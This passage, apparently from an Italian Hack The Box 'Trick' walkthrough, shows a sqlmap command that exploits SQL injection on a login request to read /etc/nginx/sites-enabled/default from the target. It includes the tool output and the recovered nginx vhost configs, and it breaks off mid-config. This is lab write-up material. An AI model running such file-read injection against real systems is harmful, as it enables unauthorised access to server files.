 ```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default

...<snip>...
do you want confirmation that the remote file '/etc/nginx/sites-enabled/default' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[13:28:00] [INFO] retrieving the length of query output
[13:28:00] [INFO] retrieved: 4
[13:28:01] [INFO] retrieved: 1058
[13:28:01] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default' and the remote file '/etc/nginx/sites-enabled/default' have the same size (1058 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default (same file)

[13:28:01] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 13:28:01 /2023-07-21/
```


Il file ci  restituisce informazioni su tre host virtuali (vhost)
Il primo è per trick.htb, ed è il server predefinito, motivo per cui la visita tramite IP porta anche lì:

```bash
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# cat _etc_nginx_sites-enabled_default
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name trick.htb;
        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

```

Tra loro ce n'è uno nuovo, preprod-marketing.trick.htb:
```
server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
```